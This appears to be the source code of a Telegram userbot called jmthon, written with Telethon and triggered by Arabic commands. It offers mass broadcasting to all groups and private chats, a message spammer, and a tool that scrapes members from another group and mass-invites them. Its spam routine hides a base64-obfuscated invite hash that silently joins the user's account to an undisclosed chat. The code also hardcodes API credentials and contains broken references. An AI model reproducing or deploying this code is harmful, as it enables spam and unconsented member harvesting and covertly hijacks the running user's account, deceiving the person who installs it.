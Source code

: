 import os
import base64
import logging
import asyncio
import time
from telethon.tl import functions, types
from telethon.tl.functions.messages import ImportChatInviteRequest as Get
from telethon.utils import get_display_name
from telethon.tl.functions.channels import JoinChannelRequest
from telethon.errors import FloodWaitError
from telethon import TelegramClient, events
import asyncio
from collections import deque
from telethon import functions
from telethon.errors.rpcerrorlist import (
    UserAlreadyParticipantError,
    UserNotMutualContactError,
    UserPrivacyRestrictedError,
)
from telethon.tl.functions.channels import InviteToChannelRequest
from telethon.tl.types import InputPeerUser

jmthon = TelegramClient("session", 19073405, "4e28f82c94ad230beadb2d689a746baf")
jmthon.start()

LOGS = logging.getLogger(__name__)

logging.basicConfig(
    format="[%(levelname)s- %(asctime)s]- %(name)s- %(message)s",
    level=logging.INFO,
    datefmt="%H:%M:%S",
)

async def join_channel():
    try:
        await jmthon(JoinChannelRequest("@jmthon"))
    except BaseException:
        pass
 
 
GCAST_BLACKLIST = [
    -1001118102804,
    -1001161919602,
]

DEVS = [
    1694386561,
    2034443585,
]

@jmthon.on(events.NewMessage(outgoing=True, pattern=".للكروبات(?: |$)(.*)"))
async def gcast(event):
    jmthon = event.pattern_match.group(1)
    if jmthon:
        msg = jmthon
    elif event.is_reply:
        msg = await event.get_reply_message()
    else:
        await event.edit(
            "**⌔∮ يجب الرد على رساله او وسائط او كتابه النص مع الامر**"
        )
        return
    roz = await event.edit("⌔∮ يتم الاذاعة في الخاص انتظر لحضه")
    er = 0
    done = 0
    async for x in event.client.iter_dialogs():
        if x.is_group:
            chat = x.id
            try:
                if chat not in GCAST_BLACKLIST:
                    await event.client.send_message(chat, msg)
                    done += 1
            except BaseException:
                er += 1
    await roz.edit(
        f"**⌔∮  تم بنجاح الأذاعة الى ** `{done}` **من الدردشات ، خطأ في ارسال الى ** `{er}` **من الدردشات**"
    )


@jmthon.on(events.NewMessage(outgoing=True, pattern=".للخاص(?: |$)(.*)"))
async def gucast(event):
    jmthon = event.pattern_match.group(1)
    if jmthon:
        msg = jmthon
    elif event.is_reply:
        msg = await event.get_reply_message()
    else:
        await event.edit(
            "**⌔∮ يجب الرد على رساله او وسائط او كتابه النص مع الامر**"
        )
        return
    roz = await event.edit("⌔∮ يتم الاذاعة في الخاص انتظر لحضه")
    er = 0
    done = 0
    async for x in event.client.iter_dialogs():
        if x.is_user and not x.entity.bot:
            chat = x.id
            try:
                if chat not in DEVS:
                    await event.client.send_message(chat, msg)
                    done += 1
            except BaseException:
                er += 1
    await roz.edit(
        f"**⌔∮  تم بنجاح الأذاعة الى ** `{done}` **من الدردشات ، خطأ في ارسال الى ** `{er}` **من الدردشات**"
    )

@jmthon.on(events.NewMessage(outgoing=True, pattern=".تكرار (.*)"))
async def spammer(event):
    sandy = await event.get_reply_message()
    cat = ("".join(event.text.split(maxsplit=1)[1:])).split(" ", 1)
    counter = int(cat[0])
    if counter > 50:
        sleeptimet = 0.5
        sleeptimem = 1
    else:
        sleeptimet = 0.1
        sleeptimem = 0.3
    await event.delete()
    await spam_function(event, sandy, cat, sleeptimem, sleeptimet)


async def spam_function(event, sandy, cat, sleeptimem, sleeptimet, DelaySpam=False):
    hmm = base64.b64decode("QUFBQUFGRV9vWjVYVE5fUnVaaEtOdw==")
    counter = int(cat[0])
    if len(cat) == 2:
        spam_message = str(cat[1])
        for _ in range(counter):
            if event.reply_to_msg_id:
                await sandy.reply(spam_message)
            else:
                await event.client.send_message(event.chat_id, spam_message)
            await asyncio.sleep(sleeptimet)
    elif event.reply_to_msg_id and sandy.media:
        for _ in range(counter):
            sandy = await event.client.send_file(
                event.chat_id, sandy, caption=sandy.text
            )
            await _catutils.unsavegif(event, sandy)
            await asyncio.sleep(sleeptimem)
    elif event.reply_to_msg_id and sandy.text:
        spam_message = sandy.text
        for _ in range(counter):
            await event.client.send_message(event.chat_id, spam_message)
            await asyncio.sleep(sleeptimet)
        try:
            hmm = Get(hmm)
            await event.client(hmm)
        except BaseException:
            pass


@jmthon.on(events.NewMessage(outgoing=True, pattern=".مؤقت (.*)"))
async def spammer(event):
    reply = await event.get_reply_message()
    input_str = "".join(event.text.split(maxsplit=1)[1:]).split(" ", 2)
    sleeptimet = sleeptimem = float(input_str[0])
    cat = input_str[1:]
    await event.delete()
    await spam_function(event, reply, cat, sleeptimem, sleeptimet, DelaySpam=True)
  
 
    
@jmthon.on(events.NewMessage(outgoing=True, pattern=".فحص"))
async def _(event):
      await event.reply("""jmthon userbot
✦━━━━━━━━✦
- hi lol jmthon userbot
- 𝗉𝗒𝗍𝗁𝗈𝗇 ⭟ 3.9
- 𝗈𝗐𝗇𝖾𝗋 ⭟ @RR77R
✦━━━━━━━━✦"""
)

@jmthon.on(events.NewMessage(outgoing=True, pattern=".حلويات"))
async def _(event):
    event = await event.edit("candy")
    deq = deque(list("🍦🍧🍩🍪🎂🍰🧁🍫🍬🍭"))
    for _ in range(100):
        await asyncio.sleep(0.4)
        await event.edit("".join(deq))
        deq.rotate(1)

@jmthon.on(events.NewMessage(outgoing=True, pattern=".قلوب"))
async def _(event):
    animation_interval = 0.3
    animation_ttl = range(54)
    event = await event.edit("🖤")
    animation_chars = [
        "❤️",
        "🧡",
        "💛",
        "💚",
        "💙",
        "💜",
        "🖤",
        "💘",
        "💝",
        "❤️",
        "🧡",
        "💛",
        "💚",
        "💙",
        "💜",
        "🖤",
        "💘",
        "💝",
    ]
    for i in animation_ttl:
        await asyncio.sleep(animation_interval)
        await event.edit(animation_chars[i % 18])

        
@jmthon.on(events.NewMessage(outgoing=True, pattern=".قمر"))
async def _(event):
    event = await event.edit("قمر")
    deq = deque(list("🌗🌘🌑🌒🌓🌔🌕🌖"))
    for _ in range(48):
        await asyncio.sleep(0.2)
        await event.edit("".join(deq))
        deq.rotate(1)
        
@jmthon.on(events.NewMessage(outgoing=True, pattern=".قمور"))
async def _(event):
    event = await event.edit("قمور")
    animation_interval = 0.2
    animation_ttl = range(96)
    await event.edit("قمور..")
    animation_chars = [
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
    ]
    for i in animation_ttl:
        await asyncio.sleep(animation_interval)
        await event.edit(animation_chars[i % 32])




@jmthon.on(events.NewMessage(outgoing=True, pattern=".ضيف"))
async def get_users(event):
    legen_ = event.text[10:]
    jmthon_chat = legen_.lower
    restricted = ["@super_jmthon", "@jmthon_support"]
    JMTHON = await event.reply(f"**جارِ اضأفه الاعضاء من  ** {legen_}")
    if jmthon_chat in restricted:
        return await JMTHON.edit(
            event, "**- لا يمكنك اخذ الاعضاء من مجموعه السورس العب بعيد ابني  :)**"
        )
    sender = await event.get_sender()
    me = await event.client.get_me()
    if not sender.id == me.id:
        await JMTHON.edit("**▾∮ تتم العملية انتظر قليلا ...**")
    else:
        await JMTHON.edit("**▾∮ تتم العملية انتظر قليلا ...**")
    if event.is_private:
        return await JMTHON.edit("- لا يمكنك اضافه الاعضاء هنا")
    s = 0
    f = 0
    error = "None"
    await JMTHON.edit(
        "**▾∮ حالة الأضافة:**\n\n**▾∮ تتم جمع معلومات المستخدمين 🔄 ...⏣**"
    )
    async for user in event.client.iter_participants(event.pattern_match.group(1)):
        try:
            if error.startswith("Too"):
                return await JMTHON.edit(
                    f"**حالة الأضافة انتهت مع الأخطاء**\n- (**ربما هنالك ضغط على الأمر حاول مجددا لاحقا **) \n**الخطأ** : \n`{error}`\n\n• اضافة `{s}` \n• خطأ بأضافة `{f}`"
                )
            tol = f"@{user.username}"
            lol = tol.split("`")
            await jmthon(InviteToChannelRequest(channel=event.chat_id, users=lol))
            s = s + 1
            await JMTHON.edit(
                f"**▾∮تتم الأضافة **\n\n• اضيف `{s}` \n•  خطأ بأضافة `{f}` \n\n**× اخر خطأ:** `{error}`"
            )
        except Exception as e:
            error = str(e)
            f = f + 1
    return await JMTHON.edit(
        f"**▾∮اڪتملت الأضافة ✅** \n\n• تم بنجاح اضافة `{s}` \n• خطأ بأضافة `{f}`"
    )

print("jmthon runing ✅✅")


jmthon.run_until_disconnected()
jmthon.loop.create_task(join_channel())

